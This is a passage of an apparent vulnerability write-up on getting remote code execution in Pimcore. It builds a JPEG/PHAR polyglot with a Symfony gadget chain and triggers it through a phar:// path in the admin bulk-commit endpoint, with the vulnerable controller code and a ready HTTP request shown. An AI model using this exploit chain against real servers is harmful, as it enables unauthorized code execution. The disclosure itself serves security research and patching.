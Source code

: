 ```bash
  int(2)
  [3]=>
  string(20) "width="1" height="1""
  ["bits"]=>
  int(8)
  ["channels"]=>
  int(3)
  ["mime"]=>
  string(10) "image/jpeg"
}
php > 
```
And finally, we're done. File is a PHAR package containing the class we want to exploit, but it's still a valid image (it can even be opened with system image viewer)!

Now we can download an existing asset in Pimcore, make it also a Phar file with a Symfony gadget chain that exploit `__destruct()` method in his meta data and then we can re-upload the new image in the Pimcore assets section.

### Triggering the exploit and executing code

The last step of exploiting the Phar deserialization is finding a way to include our JPEG/PHAR file with the `phar://` wrapper in any PHP file function.

Fortunately, the bulk-commit function take a parameter called "filename" with the following code (pimcore/bundles/AdminBundle/Controller/Admin/DataObject/ClassController.php):
```php
public function bulkCommitAction(Request $request)
    {
        $filename = $request->get('filename');
        $data = json_decode($request->get('data'), true);
        $json = @file_get_contents($filename);
        $json = json_decode($json, true);
        ...
```
Perfect! We can call the bulk-commit with our JPEG/PHAR in the `phar://` wrapper:
```http
POST /admin/class/bulk-commit HTTP/1.1
Host: 192.168.2.59:8566
X-pimcore-csrf-token: 9e7b89690abdd2515b3dafbb721c7a98f8d153c3
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Cookie: PHPSESSID=5lddjap7vkd24lvfv1p67n7ng1; pimcore_admin_sid=1

filename=phar://../../../../../../../../../../../../var/www/html/web/var/assets/test.jpg/test.txt
```

## The final script!

In order to easly exploit Pimcore we have create a PHP CLI script that can be downloaded [here](./polyglot-phar-exploit.md).

By default the script generate a 1x1 JPEG but you can pass any JPEG image for a real world example.
